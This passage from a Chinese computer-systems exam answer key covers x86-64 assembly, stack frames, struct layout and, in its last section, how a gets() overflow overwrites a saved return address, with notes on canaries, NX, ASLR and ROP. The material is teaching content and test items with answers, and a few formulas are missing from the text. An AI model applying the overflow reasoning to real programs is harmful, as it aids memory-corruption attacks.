AT&T 格式中源在前、目的在后，subq S, D 计算的是 D − S，不是 S − D。若算成 17 − 12 就会得到 5。
movq 复制的是值，之后内存再怎么变，寄存器里的副本都不会跟着变。
4.4 汇编程序（4 分）#
4.4寄存器初始状态为 %rdi = 0x1000，%rsi = 2。内存中有两个 64 位整数，分别占据地址 0x1000 和 0x1008 开始的 8 个字节，初始值分别为 7 和 11。执行以下代码后回答：(1) 第二条指令执行后，%rax 中的值为（十进制）____；(2) 全部指令执行结束后，内存地址 0x1008 处的 64 位整数值为（十进制）____。
leaq 8(%rdi), %rcx
movq (%rcx), %rax
leaq (%rax,%rsi,4), %rdx
subq (%rdi), %rdx
movq %rdx, (%rcx)答案
(1) %rax = 11 (2) 内存 0x1008 处 = 12
这道题的关键是分清两条 lea 的不同角色。第一条 leaq 8(%rdi), %rcx 只计算地址 0x1000 + 8 = 0x1008 放进 %rcx，不读内存。第二条 movq (%rcx), %rax 才真正读内存：从 0x1008 读出 11，所以 %rax = 11。第三条 leaq (%rax,%rsi,4), %rdx 虽然写成地址的形式，但 %rax 里是普通整数 11，所以它就是算术运算 。第四条从 0x1000 读出 7 并相减，%rdx = 19 − 7 = 12。最后一条把 12 写回 %rcx 所指的 0x1008，覆盖原来的 11。下表逐条列出各个值的变化。
表 5 4.4 的逐条执行跟踪
| 指令 | %rcx | %rax | %rdx | M[0x1000] | M[0x1008] |
|---|---|---|---|---|---|
| 初始 | — | — | — | 7 | 11 |
leaq 8(%rdi), %rcx | 0x1008 | — | — | 7 | 11 |
movq (%rcx), %rax | 0x1008 | 11 | — | 7 | 11 |
leaq (%rax,%rsi,4), %rdx | 0x1008 | 11 | 19 | 7 | 11 |
subq (%rdi), %rdx | 0x1008 | 11 | 12 | 7 | 11 |
movq %rdx, (%rcx) | 0x1008 | 11 | 12 | 7 | 12 |
第 5 讲 机器级控制（16 分）#
第 5 讲的四道题从条件码开始，依次考 if 语句、while 循环和 switch 语句在汇编中的样子。共同的线索是：比较或测试指令设置条件码，跳转指令读取条件码决定往哪里走。补全和逆向时，先认出代码的“骨架”（条件跳过、跳到中间测试、跳转表），再填细节。
5.1 条件码（2 分）#
5.1执行以下汇编代码后，(1) 条件码 ZF 的值为____；(2) %rax 中的值为（十六进制）____。
movq $0x2A, %rax
testq $0x08, %rax答案
(1) ZF = 0 (2) %rax = 0x2A
test S, D 计算 S & D，并根据这个结果设置条件码，但不保存结果，两个操作数都不会改变。0x2A = 0010 1010，0x08 = 0000 1000，相与得 0000 1000 = 0x08，不为 0，所以 ZF = 0。%rax 没有被修改，仍为 0x2A。test 指令还会把 CF 和 OF 清零，SF 取结果的最高位（这里为 0）。用一个只有一位为 1 的常数去 test，就是在检查这一位：本题检查的是第 3 位，它是 1，所以结果非零。test 与 and 的关系，和 cmp 与 sub 的关系一样：cmp 做减法但不保存结果，test 做按位与但不保存结果，它们都只为后面的条件跳转或条件传送准备条件码。
5.2 条件跳转（4 分）#
5.2x、y 分别存放在 %rdi 和 %rsi，返回值存放在 %rax。补全汇编中缺失的指令（假设计算不发生有符号整数溢出）。(1) 第 (1) 条指令是（整条指令写完整）：____ %rsi, ____；(2) 第 (2) 条指令是：____。
long adjust(long x, long y) adjust:
{ leaq 5(%rdi), %rax
long t = x + 5; ________ %rsi, ________ (1)
if (x > y) ______________________ (2)
t = y - 2; leaq -2(%rsi), %rax
return t; .Ldone:
} ret答案
(1) cmpq %rsi, %rdi (2) jle .Ldone
汇编先把 t = x + 5 算好放在 %rax 里作为默认结果，然后判断要不要用 y − 2 覆盖它。条件成立时应该“落下去”执行 leaq -2(%rsi), %rax，条件不成立时要跳过这条指令直接到 .Ldone。所以跳转指令的条件是原条件 x > y 的反面，即 x ≤ y。比较指令 cmpq S, D 按 D − S 设置条件码，之后的条件跳转判断的是“D 与 S 的关系”。第 (1) 空已经给出源操作数是 %rsi，那么目的操作数就是 %rdi，指令为 cmpq %rsi, %rdi，比较的是 x 与 y；随后 jle .Ldone 在 x ≤ y 时跳过赋值。x 和 y 都是 long（有符号），所以要用有符号条件 le，而不是无符号的 be。把这个函数用 gcc 13 以 -Og 编译，得到的正是这两条指令。
题干还要求计算“指定参数下的返回值”，卷面没有给出参数，这里补两组：adjust(7, 3) 中 7 > 3 成立，不跳转，返回 3 − 2 = 1；adjust(2, 3) 中 2 ≤ 3，跳转，返回默认值 2 + 5 = 7。
⚠ 补全条件跳转的三个陷阱
跳转条件要取反：C 中的条件成立时执行的是紧跟其后的代码，跳转是为了“跳过”，所以跳转条件是 x ≤ y 而不是 x > y。写成 jg 会把逻辑完全弄反。
操作数顺序要与给定的格式一致：cmpq %rsi, %rdi 后跟 jle 表示 x ≤ y；若写成 cmpq %rdi, %rsi，比较的是 y 与 x，同样的意思要写成 jge。本题第 (1) 空固定了 %rsi 在前，只能是前一种。
有符号数用 jl/jle/jg/jge，无符号数用 jb/jbe/ja/jae。
5.3 循环结构（4 分）#
5.3函数参数 x 存放在 %rdi，返回值存放在 %rax。该代码与右侧的 C 函数对应，补全缺失部分。(1) 补全 (b) 处：____；(2) 当参数 x = 0x1B 时，函数返回值为（十进制）____。
sum_pairs: long sum_pairs(unsigned long x)
movl $0, %eax {
jmp .Ltest long result = 0;
.Lbody: while (________) { // (a)
movq %rdi, %rdx result += ______; // (b)
andq $3, %rdx x = ________; // (c)
addq %rdx, %rax }
shrq $2, %rdi return result;
.Ltest: }
testq %rdi, %rdi
jne .Lbody
ret答案
(1) (b) 处为 x & 3（另外 (a) 为 x 或 x != 0，(c) 为 x >> 2） (2) 返回 6
先认骨架：入口处 jmp .Ltest 直接跳到循环末尾的测试，测试通过再跳回循环体，这是 -Og 下 while 循环“跳转到中间”（jump to middle）的标准翻译。测试部分 testq %rdi, %rdi; jne .Lbody 表示 x 不为 0 就继续循环，所以 (a) 是 x（或 x != 0）。循环体中，movq %rdi, %rdx; andq $3, %rdx 计算 x & 3（x 的最低两位），addq %rdx, %rax 把它加到 result 上，所以 (b) 是 x & 3；shrq $2, %rdi 把 x 逻辑右移 2 位，所以 (c) 是 x >> 2。这里用的是逻辑右移 shr，与 x 是 unsigned long 一致；如果 x 是有符号的，编译器会用算术右移 sar。用 gcc 13 -Og 编译这个 C 函数，结构与卷面相同，只是把 andq $3, %rdx 写成了等价的 andl $3, %edx（写 32 位寄存器会把高 32 位清零）。
这个函数每次取出 x 的最低两位加到 result 上，再把 x 右移两位，相当于把 x 写成 4 进制后求各位数字之和。0x1B = 27 = 01 10 11₂，从低到高的 4 进制数字是 3、2、1，和为 6。下表是逐次循环的跟踪。
表 6 sum_pairs(0x1B) 的执行跟踪
| 第几次测试 | x（二进制） | x & 3 | result | 新的 x |
|---|---|---|---|---|
| 1 | 011011 | 3 | 3 | 000110 |
| 2 | 000110 | 2 | 5 | 000001 |
| 3 | 000001 | 1 | 6 | 000000 |
| 4 | 000000 | — | 6（返回） | — |
5.4 跳转表（6 分）#
5.4下面的汇编代码实现 C 函数 select(long x, long y)，x、y 分别存放在 %rdi 和 %rsi 中，返回值存放在 %rax 中。计算以下函数调用的返回值（十进制）：(1) select(1, 4)；(2) select(5, 4)；(3) select(-1, 4)。
select: .L2:
cmpq $5, %rdi movl $1, %eax
ja .Ldefault .Lplus:
jmp *.Ltab(,%rdi,8) addq $3, %rax
.L0: ret
leaq 2(%rsi), %rax .L45:
ret leaq -1(%rsi), %rax
.L1: ret
leaq (%rsi,%rsi), %rax .Ldefault:
jmp .Lplus movl $0, %eax
ret
.section .rodata
.align 8
.Ltab:
.quad .L0 # x = 0
.quad .L1 # x = 1
.quad .L2 # x = 2
.quad .Ldefault # x = 3
.quad .L45 # x = 4
.quad .L45 # x = 5答案
(1) select(1, 4) = 11 (2) select(5, 4) = 3 (3) select(-1, 4) = 0
开头两条指令是 switch 的范围检查：cmpq $5, %rdi; ja .Ldefault。ja 是无符号的“高于”，所以它把 x 当作无符号数与 5 比较，x 大于 5 就去 default。通过检查后，jmp *.Ltab(,%rdi,8) 以 x 为下标在跳转表中取出 8 字节的目标地址并间接跳转。跳转表有 6 项，对应 x = 0 到 5。其中第 3 项指向 .Ldefault，说明 C 代码里没有 case 3；第 4、5 项都指向 .L45，说明 case 4 和 case 5 共用一段代码。
各段代码的含义：.L0 返回 y + 2；.L1 先算 2y，再跳到 .Lplus 加 3，返回 2y + 3；.L2 把 %eax 置 1 后顺序“落入”.Lplus 加 3，返回 4（movl 写 %eax 会把 %rax 的高 32 位清零，所以 %rax = 1）；.L45 返回 y − 1；default 返回 0。.L1 和 .L2 共用 .Lplus 的“加 3”，这是编译器合并相同尾部代码的结果。据此：select(1, 4) 走 .L1，2 × 4 + 3 = 11；select(5, 4) 走 .L45，4 − 1 = 3；select(-1, 4) 中 −1 按无符号解释是 ，远大于 5，ja 成立，走 default，返回 0。
表 7 select(x, y) 各情况的返回值
| x | 跳转目标 | 返回值 | y = 4 时 |
|---|---|---|---|
| 0 | .L0 | y + 2 | 6 |
| 1 | .L1 → .Lplus | 2y + 3 | 11 |
| 2 | .L2 → .Lplus | 1 + 3 = 4 | 4 |
| 3 | .Ldefault | 0 | 0 |
| 4、5 | .L45 | y − 1 | 3 |
| x < 0 或 x > 5 | .Ldefault（ja 跳转） | 0 | 0 |
⚠ 为什么 −1 也走 default
一条 ja 同时处理了 x > 5 和 x < 0 两种越界：负数的补码按无符号解释是非常大的正数，必然“高于”5。如果误以为 ja 是有符号比较，就会把 −1 当作合法下标，去访问跳转表之前的内存，得出错误答案。看到 switch 开头的 cmp $n; ja，就要想到这是“0 ≤ x ≤ n”的一次性检查。
第 6 讲 机器级过程（16 分）#
第 6 讲的三道题由浅入深：6.1 只考 push 和 pop 对 %rsp 的影响；6.2 考调用前后哪些寄存器的值还能用；6.3 在此基础上加入一个必须放在栈上的局部变量。后两题的核心都是同一个问题：一个值要在函数调用之后继续使用，它应该放在哪里？
6.1 栈操作（4 分）#
6.1假设栈指针 %rsp 初始值为 0x3000，执行以下汇编代码。(1) 执行 pushq 指令后，%rsp 的值为____；(2) 全部指令执行结束后，%rcx 的值为____。均用十六进制表示。
movq $0x35, %rax
pushq %rax
movq $0, %rax
popq %rcx答案
(1) %rsp = 0x2FF8 (2) %rcx = 0x35
栈向低地址增长。pushq %rax 分两步：先把 %rsp 减 8，变为 0x3000 − 8 = 0x2FF8（十六进制减法要借位，不是 0x2FF2 或 0x3FF8），再把 %rax 的值 0x35 写入地址 0x2FF8。随后 movq $0, %rax 只改变寄存器 %rax，栈中已经保存的 0x35 不受影响。popq %rcx 也分两步：先从 %rsp 所指的 0x2FF8 读出 0x35 放进 %rcx，再把 %rsp 加 8 恢复为 0x3000。所以 %rcx = 0x35。pop 之后，0x2FF8 处的内存并没有被清除，只是不再属于栈。这四条指令合起来，相当于借助栈把 %rax 原来的值“转存”到了 %rcx。
6.2 过程调用（4 分）#
6.2假设运算不发生有符号溢出。根据参数传递规则，前 6 个整数或指针参数依次通过 %rdi、%rsi、%rdx、%rcx、%r8、%r9 传递。补全 combine 的汇编实现中的两条指令，每行 2 分。
long twice(long a) combine:
{ pushq %rbx
return 2 * a; movq %rdi, %rbx
} ______________________ (1)
call twice
long combine(long x, long y) ______________________ (2)
{ popq %rbx
long t = x; ret
long v = twice(y);
return t + v;
}答案
(1) movq %rsi, %rdi (2) addq %rbx, %rax
combine 需要在调用 twice 之后继续使用 x（即 t），而 x 进来时在 %rdi 里。%rdi 是调用者保存寄存器，twice 可以随意改写它；更直接的是，调用 twice(y) 本身就要用 %rdi 传参数 y。所以 x 必须先转移到一个在调用后仍然有效的地方。代码选择了 %rbx：它是被调用者保存寄存器，twice 如果要用它，必须先保存再恢复，因此 x 放在 %rbx 里能安全地跨过这次调用。但 combine 自己也是被调用者，它要使用 %rbx，就得先 pushq %rbx 保存调用者的值，返回前 popq %rbx 恢复。
把 x 移入 %rbx 之后，第 (1) 空要为调用 twice(y) 准备参数：第一个参数应放在 %rdi，而 y 现在在 %rsi，所以是 movq %rsi, %rdi。twice 返回后 %rax = 2y，第 (2) 空计算 t + v 并把结果留在 %rax 作为返回值，即 addq %rbx, %rax。写成 leaq (%rax,%rbx), %rax 也正确，但写成 addq %rax, %rbx 是错的，因为那样结果在 %rbx 里，而且随后就会被 popq 覆盖。用 gcc 13 -Og 编译 combine，输出与卷面加上这两条指令后完全一致。
顺带一提，pushq %rbx 还有一个附带的作用：进入 combine 时 %rsp 是 16 的倍数减 8（调用者的 call 压入了 8 字节返回地址），push 一次之后 %rsp 恰好回到 16 的倍数，满足 x86-64 Linux 要求的“call 指令执行前 %rsp 按 16 字节对齐”。
6.3 过程调用和栈帧（8 分）#
6.3考虑以下两个 C 函数。假设运算不发生有符号整数溢出。下面是一种实现函数 run 的汇编代码，参数 x、y 分别存放在 %rdi 和 %rsi 中，返回值存放在 %rax 中。(1)–(3) 根据已有代码和注释补全指令，每空 2 分，三处注释依次为“传递 &local 的指令”“将更新后的 local 加入返回值的指令”“将原参数 x 加入返回值的指令”；(4) 调用 run(4, 3) 时，函数返回值为（十进制）____。
long increase(long *p, long delta)
{
long old = *p;
*p = old + delta;
return old;
}
long run(long x, long y)
{
long local = 2 * x;
long old = increase(&local, y);
return old + local + x;
}run:
pushq %rbx
subq $16, %rsp
movq %rdi, %rbx
leaq (%rdi,%rdi), %rax
movq %rax, 8(%rsp)
______________________ # (1)
call increase
______________________ # (2)
______________________ # (3)
addq $16, %rsp
popq %rbx
ret答案
(1) leaq 8(%rsp), %rdi (2) addq 8(%rsp), %rax
(3) addq %rbx, %rax (4) run(4, 3) = 23
先看 run 为什么需要栈帧。local 的地址 &local 要传给 increase，而寄存器没有地址，所以 local 必须放在内存里，也就是 run 的栈帧中。subq $16, %rsp 分配了 16 字节：local 占其中 8 字节，位于 8(%rsp)，另外 8 字节不用，只是为了让 call 之前的 %rsp 保持 16 字节对齐（入口时 %rsp ≡ 8 mod 16，push 一次后 ≡ 0，再减 16 仍 ≡ 0）。x 需要在调用后继续使用，所以与 6.2 一样被放进被调用者保存的 %rbx。leaq (%rdi,%rdi), %rax; movq %rax, 8(%rsp) 计算 2x 并存入 local。图 1 是调用 increase 那一刻的栈。
图 1 run(4, 3) 调用 increase 时的栈（A 为 run 入口处的 %rsp）
第 (1) 空要把 &local 作为第一个参数放进 %rdi。local 在地址 %rsp + 8，所以用 leaq 8(%rsp), %rdi 计算这个地址；如果写成 movq 8(%rsp), %rdi，传过去的是 local 的值 2x 而不是它的地址，increase 会把 2x 当成指针去访问。第 (2) 空：increase 返回后 %rax = old，而 increase 已经通过指针把栈中的 local 改成了 old + delta。return 语句里的 local 是调用后的新值，所以必须重新从内存读取：addq 8(%rsp), %rax。不能用调用前计算 2x 时留在 %rax 里的值——那个寄存器早已被返回值覆盖，而且就算保存下来也是旧值。第 (3) 空把 x 加上，x 在 %rbx 里：addq %rbx, %rax。（2）和（3）交换顺序结果相同，但要按注释的要求对号入座。
计算 run(4, 3)：local = 2 × 4 = 8。increase(&local, 3) 读出 old = 8，把 local 改成 8 + 3 = 11，返回 8。于是返回值 = old + local + x = 8 + 11 + 4 = 23。
⚠ 6.3 的常见错误
第 (1) 空用 movq 代替 leaq：传值而不是传地址。凡是 C 代码里出现 &变量，汇编里多半对应一条 lea。
第 (2) 空用调用前的 local 值，或者以为 local 还在某个寄存器里：increase 通过指针修改的是内存，调用后必须从 8(%rsp) 重新读取。这样算会得到 8 + 8 + 4 = 20。
第 (3) 空写成 addq %rdi, %rax：%rdi 是调用者保存寄存器，并且已被用来传 &local，调用后不再是 x。
第 7 讲 机器级数据（标题 14 分，小题合计 12 分）#
第 7 讲的两道题都是地址计算：7.1 是二维数组与指针数组，7.2 是结构体的对齐与结构体数组上的指针运算。两题共同的要点是：指针加整数时要乘以所指类型的大小，数组下标 p[i] 就是 *(p + i)。
7.1 数组（4 分）#
7.1假设二维数组 m 的起始地址为 0x3000。(1) &m[2][1] 的地址为（十六进制）____；(2) 表达式 row[0][1] + row[2][2] 的值为（十进制）____。
int m[3][4] = {
{1, 2, 3, 4},
{5, 6, 7, 8},
{9, 10, 11, 12}
};
int *row[3] = {m[2], m[0], m[1]};答案
(1) 0x3024 (2) 17
C 的二维数组按行优先连续存放：m[0] 的 4 个元素在前，接着是 m[1]、m[2]。对于 T A[R][C]，元素 A[i][j] 的地址是 。本题 C = 4，sizeof(int) = 4，所以 &m[2][1] = 0x3000 + (4 × 2 + 1) × 4 = 0x3000 + 36。36 = 0x24，地址为 0x3024。注意不要把 36 直接写成 0x36。
row 是一个指针数组，每个元素是一个 int*，分别指向 m 某一行的开头：row[0] = m[2]（即 &m[2][0]），row[1] = m[0]，row[2] = m[1]。row[0][1] 先取出 row[0] 这个指针，再取它所指的那一行的第 1 个元素，即 m[2][1] = 10；row[2][2] 是 m[1][2] = 7。两者之和为 17。这道题把“嵌套数组”和“多级数组”放在一起：两种写法在 C 里都是 x[i][j]，但 m[i][j] 只需一次内存访问（地址直接算出来），row[i][j] 需要两次（先读指针、再读元素），而且 row 的各行顺序与 m 不同，必须按指针实际指向的行去取。
7.2 结构体（8 分）#
7.2假设结构体采用课件讲授的默认对齐规则，没有使用任何特殊的内存打包设置，数组 a 的起始地址为 0x1000。(1) 结构体 Rec 中的成员 v 相对于结构体起始地址的偏移量为____字节；(2) sizeof(Rec) 的值为____字节；(3) &a[2].v[1] 的地址为（十六进制）____；(4) 变量 result 最终的值为（十进制）____。
typedef struct { Rec a[3] = {
char tag; {'A', {1, 2, 3}, 10},
int v[3]; {'B', {4, 5, 6}, 20},
long sum; {'C', {7, 8, 9}, 30}
} Rec; };
Rec *p = &a[1];
int *q = p->v;
long result = p[1].sum + q[2];答案
(1) 4 (2) 24 (3) 0x1038 (4) 36
x86-64 Linux 的对齐规则是：每个成员的偏移量必须是它自身对齐要求的倍数（基本类型的对齐要求等于其大小，数组按元素类型对齐）；整个结构体的大小必须是所有成员中最大对齐要求的倍数，以保证结构体数组中每个元素都对齐。按此逐个放置：tag 是 char，放在偏移 0，占 1 字节；v 是 int 数组，要求 4 字节对齐，下一个 4 的倍数是 4，所以 tag 后面填充 3 字节，v 的偏移为 4，占 4 × 3 = 12 字节，到偏移 16 为止；sum 是 long，要求 8 字节对齐，16 已经是 8 的倍数，sum 的偏移为 16，占 8 字节，到 24 为止。最大对齐要求是 8，24 是 8 的倍数，末尾不需要再填充，所以 sizeof(Rec) = 24。
图 2 数组 a[3] 的内存布局（每格 1 字节）与 7.2 中涉及的三个位置
数组元素依次相隔 sizeof(Rec) = 24 = 0x18 字节，所以 a[0]、a[1]、a[2] 分别从 0x1000、0x1018、0x1030 开始（见图 2）。&a[2].v[1] = a[2] 的起始地址 + v 的偏移 + 1 × sizeof(int) = 0x1030 + 4 + 4 = 0x1038。
最后看指针运算。p = &a[1]，p 的类型是 Rec*，所以 p[1] = *(p + 1) 是 p 之后的下一个 Rec，即 a[2]，p[1].sum = a[2].sum = 30。q = p->v 是 a[1].v，类型是 int*（数组名退化为指向首元素的指针），q[2] 是 a[1].v[2] = 6。result = 30 + 6 = 36。同一个“+1”，对 Rec* 是前进 24 字节，对 int* 是前进 4 字节，这就是指针运算按所指类型的大小缩放。
⚠ 7.2 的连锁错误
如果误以为每个成员都要补到 8 字节，或把 v 补到 16 字节，就会算出 sizeof(Rec) = 32，接着 &a[2].v[1] 也会错成 0x1000 + 64 + 8 = 0x1048。第 (2)、(3) 问是连在一起的，先把布局图画对再算地址。
char 后面的填充只需补到下一个成员的对齐要求（这里是 4），不是补到结构体的最大对齐要求 8。
第 8 讲 高级主题（14 分）#
第 8 讲的三道题覆盖了本讲的两个核心主题：8.1 对比结构体（struct）与联合（union）的内存分配方式和对齐大小；8.2 用不定项选择题综合考查栈金丝雀、不可执行栈（NX）、栈地址随机化（ASLR）与返回导向编程（ROP）四项攻防机制的作用边界；8.3 则给出一段调用 gets 的汇编代码，从栈帧地址计算一路问到越界覆盖返回地址的字节级后果。做 8.1 和 8.2 这两道不定项选择题时，要紧扣“全对得 3 分、少选得 1 分、错选得 0 分”的规则，逐项明确正误理由；做 8.3 时，画出栈帧布局并算清结尾 \0 落在哪个字节，四问就能迎刃而解。
8.1 结构与联合（3 分）#
8.1考虑以下类型定义，以下说法哪些正确？（不定项选择，3 分。全对得 3 分，少选得 1 分，错选或不选得 0 分）
A. sizeof(struct S) 的值为 16。 B. sizeof(union U) 的值为 8。
C. struct S 的成员 c 和 x 占用相同的存储空间。 D. union U 的成员 c 和 x 具有相同的起始地址。
struct S { union U {
char c; char c;
long x; long x;
}; };答案
A、B、D
结构体 struct S 将各成员按声明顺序依次存放在独立的内存位置，并遵循对齐规则：成员 c（char，1 字节）放在偏移 0；成员 x（long，在 x86-64 Linux 上占 8 字节，按 8 字节对齐）必须从 8 的倍数偏移开始，因此 c 后面需要填充 7 个字节，x 放在偏移 8..15。整个结构体的大小是 1 + 7 + 8 = 16 字节，已是最大对齐要求 8 的倍数，所以 sizeof(struct S) 的值为 16，A 正确。由于 c 在偏移 0、x 在偏移 8，两个成员各自占用不同的存储空间，互不重叠，因此 C 错误。
联合 union U 的声明语法与结构体相似，但内存分配方式恰好相反（见第 8 讲讲义 8.1、8.3 节）：所有成员都从偏移 0 开始，重叠共用同一块存储空间。因此成员 c 和 x 具有完全相同的起始地址（&u.c 与 &u.x 相等，相对于联合起点的偏移量均为 0），D 正确。联合的总大小等于其最大成员的大小（再按最大对齐要求向上取整）：c 占 1 字节、x 占 8 字节，最大成员为 8 字节且对齐要求为 8，所以 sizeof(union U) 的值为 8，B 正确。
⚠ 结构体与联合的核心区别及不定项选择策略
结构体是“顺序排开 + 对齐填充”，各成员地址不同、总大小按对齐累加（struct S 占 16 字节）；联合是“同一起点 + 空间重叠”，各成员起始地址相同、总大小取最大成员（union U 占 8 字节）。把 C、D 两项对照看：C 把联合“共用存储空间”的性质安到了结构体上，所以 C 错、D 对。
不定项选择多选一个错误选项就得 0 分，而少选仍能得 1 分。考场上若对某一项没有十足把握，宁可只选最确定的选项。
8.2 防御技术（3 分）#
8.2对于 x86-64 Linux 的程序，以下关于缓冲区溢出攻击及防御措施的说法，哪些正确？（不定项选择，3 分。全对得 3 分，少选得 1 分，错选或不选得 0 分）
A. “栈金丝雀”可以通过检查标记值是否改变，检测到部分缓冲区溢出。
B. ROP 攻击可以利用程序中已有的可执行代码，因此不可执行栈无法单独阻止此类攻击。
C. 栈地址随机化能够从根本上消除程序中的缓冲区越界写入。
D. 即使设置了不可执行栈，缓冲区溢出仍有可能修改保存在栈中的返回地址。
答案
A、B、D
本题考查缓冲区溢出的三种系统/编译器级防御手段及 ROP 攻击的原理（见第 8 讲讲义 8.6、8.7 节）。先看 A：“栈金丝雀”（stack canary）由编译器在栈帧的局部缓冲区与保存的栈状态（被调用者保存寄存器、返回地址）之间插入一个从 %fs:0x28 读取的随机标记值，并在函数执行 ret 返回前检查该标记值是否被改动。若局部字符数组越界写入并覆盖到金丝雀的位置，返回前的校验就会发现标记值改变并终止程序，因此它能检测到这类缓冲区溢出（之所以说“部分”，是因为若越界只改坏了金丝雀之前的局部变量，或通过指针直接改写其他位置而未触碰金丝雀，金丝雀就无法察觉），A 正确。
再看 B 和 D，这两项都围绕“不可执行栈”（NX，No-Execute）。NX 的作用是在页表权限上把栈所在的内存页标记为“不可执行”（只允许读写，不允许 CPU 从栈上取指执行），从而阻止传统的“把机器码注入到栈缓冲区再跳过去执行”的攻击。但栈本身仍然是可读写的——函数调用、局部变量访问和 gets 读入都在写栈，因此缓冲区溢出依然可以越界修改保存在栈中的返回地址，D 正确。也正因为栈虽不可执行但返回地址仍能被篡改，攻击者才采用返回导向编程（ROP）：不在栈上注入机器码，而是利用程序代码段（.text）或共享库中本来就存在且具有可执行权限的短指令片段（以 ret 结尾的 gadget），通过在栈上连续布置 gadget 地址来拼出攻击逻辑，所以不可执行栈无法单独阻止 ROP 攻击，B 正确。
最后看 C：栈地址随机化（ASLR）是在每次程序运行时随机改变栈、堆、共享库等区域的起始地址，使攻击者难以预先猜中缓冲区或跳板代码的准确地址，从而抬高攻击门槛；但它并不会给数组访问加上边界检查，程序里的 gets 或越界下标在运行时照样会越界写内存。要想从根本上消除缓冲区越界写入，必须在源代码中改用限制长度的安全函数（如用 fgets 代替 gets）并做严格的边界检查，因此 C 错误。
⚠ 区分四种手段的作用阶段
修改源码（改用 `fgets` 等）：唯一能从源头消除缓冲区越界写入的办法。
栈金丝雀（canary）：不阻止越界写内存，但在 ret 之前检查哨兵值是否被改动，阻止程序使用被篡改的返回地址跳转。
栈地址随机化（ASLR）：不阻止越界写内存，但让攻击者难以猜准目标地址。
不可执行栈（NX）：只禁止 CPU 执行栈上的数据，既不阻止越界写栈，也不阻止修改返回地址或复用已有可执行代码的 ROP 攻击。
8.3 缓冲区攻击（8 分）#
8.3考虑以下 C 语言程序及在一台 x86-64 Linux 计算机上 read_input 对应的汇编代码。已知以下条件：调用 read_input 时，call 指令的下一条指令地址为 0x4012A5；刚进入 read_input 时，%rsp = 0x1208；程序未启用“栈金丝雀”；gets 函数读取输入的所有字符，并在末尾添加 \0 字符；假设下面讨论的越界写入，不会引起系统的其他异常情况处理操作。
(1) gets 执行时，数组 buf[0] 的内存地址为（十六进制）：____（2 分）
(2) 假设用户只输入连续的字符 A（ASCII 码为 0x41），随后按回车。若要求输入不会导致修改返回地址，最多可以输入多少个字符 A？____（2 分）
(3) 按照第 (2) 问要求的情况，如果再多输入 1 个字符 A，那么 read_input 执行 ret 指令时，将跳转到哪个地址？用十六进制表示：____（2 分）
(4) 如果程序启用“栈金丝雀”，是否可以阻止返回地址被修改？____（2 分）
void read_input(void) read_input:
{ subq $40, %rsp
char buf[16]; leaq 8(%rsp), %rdi
gets(buf); call gets
} addq $40, %rsp
ret
void process(void)
{
read_input();
/* 后续操作 */
}答案
(1) 0x11E8 (2) 31 (3) 0x401200 (4) 不可以（或“否”“不能”）
先把 read_input 的栈帧从高地址到低地址画清楚（见图 3，对比第 8 讲讲义 8.5 节的 echo 栈帧）。process 调用 read_input 时，call 指令把返回地址 0x4012A5（占 8 字节）压入栈中；已知刚进入 read_input 时 %rsp = 0x1208，说明这个 8 字节返回地址存放在 0x1208 .. 0x120F。接着第一条指令 subq $40, %rsp 将栈指针减去十进制 40（即十六进制 0x28），%rsp 变为 0x1208 − 0x28 = 0x11E0。第二条指令 leaq 8(%rsp), %rdi 计算 %rsp + 8 = 0x11E0 + 8 = 0x11E8，作为参数传给 gets，这就是 buf[0] 的内存地址。虽然随后 call gets 又会把 gets 的返回地址压入 0x11D8，但 buf[0] 在内存中的地址固定为 0x11E8（第 (1) 问）。
图 3 read_input 的栈帧布局与 8.3 中输入 31、32 个字符 A 时的覆盖情况
再算从 buf[0]（0x11E8）到保存返回地址的 0x1208 之间共有多少字节：0x1208 − 0x11E8 = 0x20 = 32 字节，包含 buf[0..15] 的 16 字节（0x11E8 .. 0x11F7）以及 buf 上方未使用的 16 字节栈空间（0x11F8 .. 0x1207）。gets 读取用户输入的 n 个字符 'A'（0x41）后，还会在末尾自动补写 1 个结束符 '\0'（0x00），总共从 0x11E8 起向高地址连续写入 n + 1 个字节。若要求不修改 0x1208 处的返回地址，写入的最后一个字节（即 '\0'）至多落在 0x1207，也就是 n + 1 ≤ 32，因此最多可以输入 n = 31 个字符 'A'（第 (2) 问）。
在第 (2) 问的基础上再多输入 1 个字符 'A'（即输入 32 个 'A'），gets 一共写入 33 个字节：前 32 个字节（32 个 0x41）恰好填满 0x11E8 .. 0x1207，而第 33 个字节——末尾自动添加的 '\0'（0x00）——正好写入地址 0x1208。x86-64 采用小端字节序，8 字节返回地址 0x00000000004012A5 在 0x1208 .. 0x120F 中按字节从低地址到高地址依次存放为 A5 12 40 00 00 00 00 00，最低有效字节 0xA5 就在最低地址 0x1208。它被 '\0' 覆盖成 0x00 后，栈中的 8 字节返回地址变为 00 12 40 00 00 00 00 00，即 0x0000000000401200。因此 read_input 执行 ret 时将跳转到 0x401200（第 (3) 问）。
第 (4) 问考查栈金丝雀的工作机制（见第 8 讲讲义 8.6 节）。启用栈金丝雀后，编译器会在局部缓冲区 buf 与返回地址之间放置一个随机哨兵值，并在 gets 返回之后、ret 执行之前检查该值是否被篡改。但在 gets 执行期间，它依然按输入长度一路向高地址连续写内存，没有任何硬件或软件机制在中途拦住 gets 越界覆写金丝雀和 0x1208 处的返回地址。也就是说，栈金丝雀只能在返回地址已经被修改之后检测到溢出并调用 __stack_chk_fail 终止程序，而不可以阻止返回地址本身被修改。
⚠ 8.3 的四个常见失分点
第 (1) 问漏看 leaq 8(%rsp), %rdi 的偏移 8，直接把 %rsp（0x11E0）当作 buf[0] 地址；或把 $40 当成十六进制 0x40 相减得到 0x11D0。
第 (2) 问忘记 gets 会在末尾多写 1 字节的 '\0' 而错答 32；或只看 char buf[16] 的声明大小而错答 15（忽略了 buf 到返回地址之间还有 16 字节未使用空间）。
第 (3) 问误以为覆写 0x1208 的是 'A'（0x41）而错答 0x401241：第 32 个 'A' 落在 0x1207，落在 0x1208 的第 33 个字节是 '\0'（0x00），所以最低字节从 0xA5 变成 0x00。若第 (2) 问错算成 32，第 (3) 问按 33 个 'A' 算就会连错两问。
第 (4) 问把“阻止跳转到被篡改的地址”混淆为“阻止返回地址被修改”：金丝雀是函数返回前的事后检查，不能阻止 gets 修改栈内存。
第三部分 高频失分点与复习建议#
本卷高频失分点归纳#
把第 2–8 讲中容易出错的地方按“错误类型”而不是按题号归纳，会发现很多题错在同一种习惯上。下表每一行都对应一种可以通过固定检查步骤避免的错误。
表 8 高频失分点（第 2–8 讲）
| 错误类型 | 涉及题目 | 典型表现 | 避免方法 |
|---|---|---|---|
